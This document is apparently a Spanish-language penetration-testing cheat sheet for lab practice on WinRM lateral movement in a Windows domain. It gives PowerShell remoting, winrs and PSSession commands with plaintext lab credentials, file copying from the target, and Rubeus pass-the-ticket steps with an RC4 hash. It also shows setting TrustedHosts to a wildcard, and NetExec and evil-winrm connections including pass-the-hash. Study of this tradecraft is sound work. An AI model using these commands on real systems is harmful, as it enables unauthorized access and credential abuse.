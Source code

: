 # Desde Windows

### PowerShell

##### Ejecutar comandos

    Invoke-Command -ComputerName srv02 -ScriptBlock { hostname;whoami }

##### Para hacerlo con credenciales:

    $username = "INLANEFREIGHT\Helen"
    $password = "RedRiot88"
    $securePassword = ConvertTo-SecureString $password -AsPlainText -Force
    $credential = New-Object System.Management.Automation.PSCredential ($username, $securePassword)
    Invoke-Command -ComputerName 172.20.0.52 -Credential $credential -ScriptBlock { whoami; hostname }



### Winrs

##### Ejecutar un comando

    winrs /remote:srv02 /username:helen /password:RedRiot88 "powershell -c whoami;hostname"

### PSSession
##### Copiar archivos 
Iniciamos una sesión

    $sessionSRV02 = New-PSSession -ComputerName SRV02 -Credential $credential

###### Desde nuestra PC a la del target

    Copy-Item -ToSession $sessionSRV02 -Path 'C:\Users\helen\Desktop\Sample.txt' -Destination 'C:\Users\helen\Desktop\Sample.txt' -Verbose

###### Desde el target a nuestra pc:

    Copy-Item -FromSession $sessionSRV02 -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\Users\helen\Desktop\host.txt' -Verbose

##### Obtener una shell interactiva

    Enter-PSSession $sessionSRV02

### Rubeus

Si queremos hacer un pass the hash o pass the ticket rubeus es la mejor opción. La idea es generar un ticket para poder importar la sesión y de esta manera abusar de la misma para relacionarnos con el target

###### 1) Creamos nuestro ticket

    .\Rubeus.exe asktgt /user:leonvqz /rc4:32323DS033D176ABAAF6BEAA0AA681400 /nowrap

##### 2) Creamos un proceso de sacrificio

    .\Rubeus.exe createnetonly /program:powershell.exe /show

##### 3) Importamos el ticket creado en el paso 1 para generar la sesión

    .\Rubeus.exe ptt /ticket:<ticket>

##### 4) Ahora que tenemos la sesión, abusamos de la misma

    Enter-PSSession SRV02.inlanefreight.local -Authentication Negotiate

## Errores

Si recibimos errores usualmente son porque se pierde en nuestra sesión alguna variable de autenticación.

Si el error nos dice que no nos reconoce el endpoint por su nombre **SRV02** probar con el FQDN: **srv02.inlanefreight.local**

##### Si tenemos el error:

    Enter-PSSession : Connecting to remote server srv02 failed with the following error message : The WinRM client cannot
    process the request.  Default credentials with Negotiate over HTTP can be used only if the target machine is part of
    the TrustedHosts list or the Allow implicit credentials for Negotiate option is specified. For more information, see
    the about_Remote_Troubleshooting Help topic.
    At line:1 char:1

Podemos solucionarlo con el siguiente comando

    Set-Item WSMan:localhost\client\trustedhosts -value * -Force


---

# Desde Linux

### NetExec

##### Ejecutar un comando:

    netexec winrm 10.129.229.244 -u frewdy -p Kiosko093 -x "ipconfig"

### Evil-WinRm

##### Instalación

    sudo apt-get install ruby && gem install evil-winrm    

##### Conectarnos

    evil-winrm -i 10.129.229.244 -u 'inlanefreight.local\frewdy' -p Kiosko093

Podemos hacer también pass the hash con la flag **-H**

Podemos ver los comandos disponibles una vez iniciada la sesión con el comando **menu**
